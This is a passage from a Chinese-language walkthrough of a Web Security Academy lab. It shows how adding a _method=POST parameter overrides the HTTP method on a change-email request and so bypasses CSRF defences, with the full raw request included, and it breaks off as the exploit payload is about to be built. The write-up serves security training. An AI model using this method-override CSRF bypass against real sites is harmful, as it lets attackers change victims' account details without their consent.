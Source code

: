 [![](assets/1705890866-c87ecd798c5046ce0584e1dad9216875.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118111300-7c179cb6-b5af-1.png)  
随后发送请求到 repeat 模块并更改请求方法，可以看到这里的 GET 请求方法也不被允许  
[![](assets/1705890866-0dd4042566f369f47c7fb5238758c816.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118111316-859f4bf8-b5af-1.png)  
尝试通过向查询字符串中添加\_method 参数来重写该方法，可以看到成功 302 跳转

```plain
GET /my-account/change-email?email=foo%40web-security-academy.net&_method=POST HTTP/1.1
Host: 0a5400b1044f8e7280d0264400d70024.web-security-academy.net
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a5400b1044f8e7280d0264400d70024.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a5400b1044f8e7280d0264400d70024.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=76cbGkEjs6l0yhtyjUfc5wXPQCEZ9JwQ
```

[![](assets/1705890866-9e889d42c098df8a6cad3d73ad9f3dfe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118111343-95f7d0ce-b5af-1.png)  
随后在漏洞利用服务器中制作一下攻击载荷
